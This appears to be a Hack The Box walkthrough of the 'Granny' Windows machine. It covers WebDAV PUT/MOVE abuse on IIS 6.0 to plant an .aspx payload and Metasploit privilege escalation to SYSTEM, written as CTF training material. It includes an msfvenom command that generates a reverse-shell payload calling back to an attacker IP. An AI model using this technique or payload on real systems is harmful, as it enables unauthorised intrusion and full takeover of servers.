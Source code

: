 ```yaml
---
title:     "Hack The Box - Granny"
tags: [windows,easy,isi,put]
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/1.png)

We are going to pwn Granny from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/14>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-ntlm-info: 
|   Target_Name: GRANNY
|   NetBIOS_Domain_Name: GRANNY
|   NetBIOS_Computer_Name: GRANNY
|   DNS_Domain_Name: granny
|   DNS_Computer_Name: granny
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Sat, 07 Mar 2020 04:33:20 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  WebDAV type: Unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows Server 2003 SP2 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2003 SP2 (89%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows XP SP2 or Windows Server 2003 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## HTTP:

The webpage is running as ``ISI 6.0`` from Nmap results. Like [Grandpa](https://0xw0lf.github.io//posts/HTB-Grandpa).<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/2.png)

The Nmap ``webdav-scan`` revealed that we have ``PUT`` options. I tried ``davtest``.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/3.png)

I opened one of the ``PUT`` link to see whats going.I captured the burp request.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/4.png)
We need to know the file extension to upload to get reverse shell.And it is Powered by ``ASP.NET`` so our payload must be in ``.asp or .aspx``.

Now we need create a payload and ``PUT`` to the website.
I used ``msfvenom`` for creating payload

>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.22 LPORT=1234 -f aspx

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/5.png)

We I tried uploading the payload but I got ``403 Forbidden``.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/6.png)

We know the website have lot of ``Allowed Methods`` so I checked what ``MOVE`` will do?
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/7.png)

Since ``.aspx`` is not allowed to upload we can upload someother file and change the extension back to ``.aspx``.

I used ``.html`` to upload the same payload, now we can use ``Move`` to change its extension.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/8.png)

``201 Created`` It worked, Extension changed.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/9.png)

Started my Listener in ``Msfconsole`` <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/10.png)

## Privilege Escalation:

We can try try ``local_exploit_suggester`` before that, need to ``migrate`` process inorder to make it stable. So I won't face any errors while using any exploit.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/11.png)

Let's background this session and Use ``local_exploit_suggester``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/13.png)

So it's like [Grandpa](https://0xw0lf.github.io//posts/HTB-Grandpa) Box, same exploits.
I used the same ``windows/local/ppr_flatten_rec``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/14.png)

Got NT AUTHORITY\SYSTEM



